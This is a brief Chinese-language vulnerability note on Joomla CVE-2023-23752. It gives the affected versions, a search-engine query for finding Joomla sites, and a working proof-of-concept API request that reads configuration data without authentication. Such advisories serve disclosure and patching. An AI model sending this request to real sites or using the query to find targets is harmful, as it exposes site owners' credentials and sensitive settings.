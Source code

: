 # Joomla application 未授权访问漏洞 CVE-2023-23752

## 漏洞描述

Joomla 存在未授权访问漏洞，攻击者通过覆盖 public 值绕过限制，访问部分API获取敏感数据

## 漏洞影响

```
Joomla 4.0.0 - 4.2.7
```

## 网络测绘

```
app="Joomla"
```

## 漏洞复现

登陆页面

![image-20230313171122485](images/image-20230313171122485.png)

验证POC

```
/api/index.php/v1/config/application?public=true
```

![image-20230313171136037](images/image-20230313171136037.png)